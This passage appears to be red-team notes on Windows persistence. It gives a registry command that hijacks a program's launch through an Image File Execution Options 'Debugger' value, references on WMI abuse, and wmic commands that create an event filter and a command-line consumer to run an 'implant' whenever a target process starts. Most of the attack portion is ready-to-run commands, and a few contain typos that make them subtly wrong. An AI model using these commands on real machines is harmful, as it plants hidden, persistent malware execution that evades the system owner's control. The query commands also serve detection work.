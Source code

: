 
- Debugger value
```
> reg add "HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Image File Execution Options\TARGET-BIN.EXE" /v Debugger /d "C:\path\to\implant" /reg:32 or 64
```

#### WMI Events

- https://attack.mitre.org/techniques/T1546/003/
- https://www.ired.team/offensive-security/persistence/t1084-abusing-windows-managent-instrumentation
- https://www.blackhat.com/docs/us-15/materials/us-15-Graeber-Abusing-Windows-Management-Instrumentation-WMI-To-Build-A-Persistent%20Asynchronous-And-Fileless-Backdoor-wp.pdf
- https://web.archive.org/web/20201207115625/https://www.fireeye.com/content/dam/fireeye-www/global/en/current-threats/pdfs/wp-windows-management-instrumentation.pdf
- https://pentestlab.blog/2020/01/21/persistence-wmi-event-subscription/
- https://in.security/2019/04/03/an-intro-into-abusing-and-identifying-wmi-event-subscriptions-for-persistence/
- https://medium.com/@ali.bahri/mofs-manipulating-wmi-events-9fc9f58af947

- Administrator level privileges are required to use this technique

- query event filters (cmd and powershell)
```
> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter GET /format:list

> Get-WmiObject -Class __EventFilter -Namespace root\subscription
```
```
> wmic /NAMESPACE:"\\root\subscription" PATH __EventCosumer GET /format:list

> Get-WmiObject -Class __EventConsumer -Namespace root\subscription
```
```
> wmic /NAMESPACE:"\\root\subscription" PATH __FilterToConsumerBinding GET /format:list

> Get-WmiObject -Class __FilterToConsumerBinding -Namespace root\subscription
```

- Typically persistence via WMI event subscription requires creation of the following three classes which are used to store the payload or the arbitrary command, to specify the event that will trigger the payload and to relate the two classes (**__EventConsumer** **&__EventFilter**) so execution and trigger to bind together.


1. create new event sudscription (conditions that the system will listen for). In this case target binary is the trigger to start event.
```
> wmic /NAMESPACE:"\\root\subscription" PATH __EventFilter CREATE Name="FILTER-NAME", EventNameSpace="root\cimv2", QueryLanguage="WQL", Query="Select * From __InstanceCreationEvent Within 15 Where (TargetInstace Isa 'Win32_Process' And TargetInstance.Name = 'TARGET-BIN.EXE')"
```

2. define consumer (consumers can carry out actions when event filters are triggered). here is to run implant.
```
> wmic /NAMESPACE:"\\root\subscription" PATH CommandLineEventConsumer CREATE Name="CONSUMER-NAME", WorkingDirectory="C:\path\to\implant\dir", CommandLineTemplate="C:\path\to\implant.exe"
```
